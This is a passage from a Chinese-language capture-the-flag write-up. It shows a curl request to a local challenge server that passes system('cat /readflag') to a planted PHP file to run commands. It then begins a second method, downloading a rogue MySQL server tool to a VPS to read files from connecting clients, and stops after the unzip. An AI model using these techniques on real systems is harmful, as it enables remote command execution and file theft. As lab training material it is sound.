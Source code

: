 ```http
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=f9d1b6956b5af8d809954a1a9d8db6b1
Connection: keep-alive


```
访问得到flag

```sh
➜  ~ curl 'http://127.0.0.1:2002/Modules/Common/Conf/35476a338e03e65c85448bb8450bd27d.php?1=system(%27cat+/readflag%27);'
ctf{123456789}
```


第二种解法 利用 恶意mysql服务器读取客户端的文件

这题的flag在文件 readflag 所以有点恶心一般想不到

首先在拥有公网IP的VPS上构建服务器

```sh
➜  /tmp wget https://github.com/rmb122/rogue_mysql_server/releases/download/v1.0.1/rogue_mysql_server-v1.0.1-linux-amd64.zip && unzip rogue_mysql_server-v1.0.1-linux-amd64.zip
--2025-04-18 10:51:46--  https://github.com/rmb122/rogue_mysql_server/releases/download/v1.0.1/rogue_mysql_server-v1.0.1-linux-amd64.zip
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/274864626/d3436ccd-2e10-4cb9-9a1a-660b39e130fa?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250418%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250418T025134Z&X-Amz-Expires=300&X-Amz-Signature=c0afaa517ca3841b0be1836cd468aeda032264abc6b60ef0c77d072bb52f9619&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Drogue_mysql_server-v1.0.1-linux-amd64.zip&response-content-type=application%2Foctet-stream [following]
--2025-04-18 10:51:46--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/274864626/d3436ccd-2e10-4cb9-9a1a-660b39e130fa?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250418%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250418T025134Z&X-Amz-Expires=300&X-Amz-Signature=c0afaa517ca3841b0be1836cd468aeda032264abc6b60ef0c77d072bb52f9619&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Drogue_mysql_server-v1.0.1-linux-amd64.zip&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.110.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3396655 (3.2M) [application/octet-stream]
Saving to: ‘rogue_mysql_server-v1.0.1-linux-amd64.zip.1’

rogue_mysql_server-v1.0.1-linux-amd64.zip 100%[====================================================================================>]   3.24M  8.89MB/s    in 0.4s

2025-04-18 10:51:48 (8.89 MB/s) - ‘rogue_mysql_server-v1.0.1-linux-amd64.zip.1’ saved [3396655/3396655]

Archive:  rogue_mysql_server-v1.0.1-linux-amd64.zip
  inflating: README.md
  inflating: config.yaml
  inflating: rogue_mysql_server
```

